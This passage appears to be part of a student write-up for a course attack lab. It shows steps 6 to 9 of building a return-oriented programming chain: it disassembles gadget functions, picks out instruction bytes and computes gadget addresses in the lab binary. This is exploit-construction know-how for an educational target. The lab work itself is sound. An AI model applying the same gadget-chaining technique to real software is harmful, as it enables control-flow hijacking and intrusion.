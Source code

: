 `4028fc + 2 = 4028fe`


#### step6

`89 ca movl %ecx, %edx`

```
0000000000402858 <getval_431>:
  402858:	f3 0f 1e fa          	endbr64 
  40285c:	b8 89 ca 20 db       	mov    $0xdb20ca89,%eax
  402861:	c3                   	ret
```

`40285c + 1 = 40285d`


#### step7

`89 d6 movl %edx, %esi`

```
0000000000402903 <addval_446>:
  402903:	f3 0f 1e fa          	endbr64 
  402907:	8d 87 89 d6 08 d2    	lea    -0x2df72977(%rdi),%eax
  40290d:	c3                   	ret
```

`402907 + 2 = 402909`


you will notice in each of these steps there are weird encodings like `20 db` or `08 d2` in between the `movl "" ""` instruction code and `c3`. these are the 2-byte nop encodings, and just like how `90` functions as a nop code, these will have no effect on your memory addresses.

#### step8

for this step, all we need to do is locate the address of the `add_xy` function. literally the only simple part to this whole phase, ha.

`lea (%rdi, %rsi, 1), %rax (add_xy)`

```
00000000004027ce <add_xy>:
  4027ce:	f3 0f 1e fa          	endbr64 
  4027d2:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4027d6:	c3                   	ret
```

`4027ce`


#### step9

`48 89 c7 c3 movq %rax, %rdi` (same as step 2)

```
00000000004027af <getval_474>:
  4027af:	f3 0f 1e fa          	endbr64 
  4027b3:	b8 48 89 c7 c3       	mov    $0xc3c78948,%eax
  4027b8:	c3                   	ret    
```
